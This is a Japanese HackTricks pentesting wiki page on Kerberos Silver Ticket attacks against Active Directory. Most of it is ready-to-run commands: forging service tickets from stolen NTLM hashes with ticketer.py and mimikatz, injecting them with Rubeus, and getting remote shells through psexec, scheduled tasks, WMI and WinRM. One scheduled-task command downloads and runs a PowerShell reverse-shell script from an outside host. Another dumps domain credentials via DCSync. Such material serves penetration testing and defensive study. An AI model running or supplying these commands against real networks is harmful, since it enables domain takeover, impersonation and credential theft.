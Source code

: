 # Silver Ticket

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする
- **ハッキングトリックを共有するためにPRを提出して** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリに

</details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

**ハッキングキャリア**に興味がある方や**解読不能なものをハック**したい方 - **採用中です！**（_流暢なポーランド語の読み書きが必要です_）。

{% embed url="https://www.stmcyber.com/careers" %}

## Silver ticket

**Silver Ticket**攻撃は、Active Directory（AD）環境でのサービスチケットの悪用を含みます。この方法は、**サービスアカウント（コンピューターアカウントなど）のNTLMハッシュを取得**し、チケット発行サービス（TGS）チケットを偽造することに依存しています。この偽造されたチケットを使用すると、攻撃者はネットワーク上の特定のサービスにアクセスし、**通常は管理特権を狙って**任意のユーザーをなりすますことができます。チケットの偽造には、AESキーを使用することがより安全で検出されにくいと強調されています。

チケットの作成には、オペレーティングシステムに基づいて異なるツールが使用されます：

### Linux上
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```
### Windows上
```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```
## 利用可能なサービス

| サービスタイプ                             | サービスシルバーチケット                                               |
| ---------------------------------------- | -------------------------------------------------------------------- |
| WMI                                      | <p>HOST</p><p>RPCSS</p>                                              |
| PowerShellリモート                        | <p>HOST</p><p>HTTP</p><p>OSによっては:</p><p>WSMAN</p><p>RPCSS</p> |
| WinRM                                    | <p>HOST</p><p>HTTP</p><p>場合によっては: WINRM</p>                 |
| スケジュールタスク                        | HOST                                                               |
| Windowsファイル共有、またpsexec            | CIFS                                                               |
| LDAP操作、DCSyncを含む                   | LDAP                                                               |
| Windowsリモートサーバー管理ツール          | <p>RPCSS</p><p>LDAP</p><p>CIFS</p>                                   |
| ゴールデンチケット                         | krbtgt                                                             |

**Rubeus**を使用して、以下のパラメータを使ってこれらのチケットをすべて要求できます:

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

### シルバーチケットのイベントID

* 4624: アカウントログオン
* 4634: アカウントログオフ
* 4672: 管理者ログオン

## サービスチケットの悪用

以下の例では、チケットが管理者アカウントを偽装して取得されたと想定しています。

### CIFS

このチケットを使用すると、`C$`および`ADMIN$`フォルダに**SMB**経由でアクセスし、リモートファイルシステムの一部にファイルをコピーすることができます。
```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```
### ホスト

この権限を使用すると、リモートコンピューターでスケジュールされたタスクを生成し、任意のコマンドを実行できます。
```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
### HOST + RPCSS

これらのチケットを使用すると、**被害者システムでWMIを実行**できます。
```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```
以下のページで**wmiexecに関する詳細情報**を見つける：

{% content-ref url="../ntlm/wmicexec.md" %}
[wmicexec.md](../ntlm/wmicexec.md)
{% endcontent-ref %}

### ホスト + WSMAN (WINRM)

コンピューター上でwinrmアクセスを使用すると、**アクセス**してPowerShellを取得できます：
```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```
### LDAP

この権限を使用すると、**DCSync**を使用してDCデータベースをダンプできます。
```
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```
**DCSyncについて**は、以下のページで詳細を学ぶことができます：

## 参考文献
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

**ハッキングのキャリア**に興味があり、**解読不能なものをハック**したい場合は、**採用中です！**（_流暢なポーランド語の読み書きが必要です_）。

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>**htARTE（HackTricks AWS Red Team Expert）**で**ゼロからヒーローまでのAWSハッキング**を学びましょう！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝**したい場合や、**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**したり、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>
